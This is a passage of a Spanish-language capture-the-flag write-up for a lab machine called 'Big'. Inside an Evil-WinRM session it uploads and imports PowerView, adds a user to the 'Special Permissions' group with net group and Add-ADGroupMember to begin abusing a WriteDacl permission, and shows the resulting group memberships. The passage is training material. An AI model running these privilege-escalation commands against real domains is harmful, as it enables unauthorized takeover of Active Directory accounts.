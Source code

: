 Para este ataque, necesitamos la herramienta **PowerView** que puedes descargar aquí:
* <a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" target="_blank">Repositorio de PowerShellMafia: PowerView.ps1</a>

Una vez que lo descargues, súbelo a la sesión de **evil-winrm**:
```batch
*Evil-WinRM* PS C:\Users\song\Desktop> upload PowerView.ps1
Info: Uploading /../TheHackersLabs/Big/content/post/PowerView.ps1 to C:\Users\song\Desktop\PowerView.ps1
Data: 1027036 bytes of 1027036 bytes copied
Info: Upload successful!
```

Carga el **PowerView** como módulo a la sesión:
```batch
*Evil-WinRM* PS C:\Users\song\Desktop> Import-Module .\PowerView.ps1
```
Ahora bien, en la descripción del **permiso WriteDacl**, ya nos dan los pasos que debemos seguir.

Para empezar, debemos ser miembros del **grupo Special Permissions**, siendo que podemos agregarnos de estas dos maneras:
```batch
net group "Special Permissions" song /add /domain
.
Add-ADGroupMember -Identity "Special Permissions" -Members "song"
```

Si salimos de la sesión y volvemos a entrar, ya nos debería aparecer que estamos dentro de ese grupo:
```batch
*Evil-WinRM* PS C:\Users\song\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
bbr\Special Permissions                    Group            S-1-5-21-1487034055-435569681-4283575489-1108 Mandatory group, Enabled by default, Enabled group
bbr\Privilege users                        Group            S-1-5-21-1487034055-435569681-4283575489-1107 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```
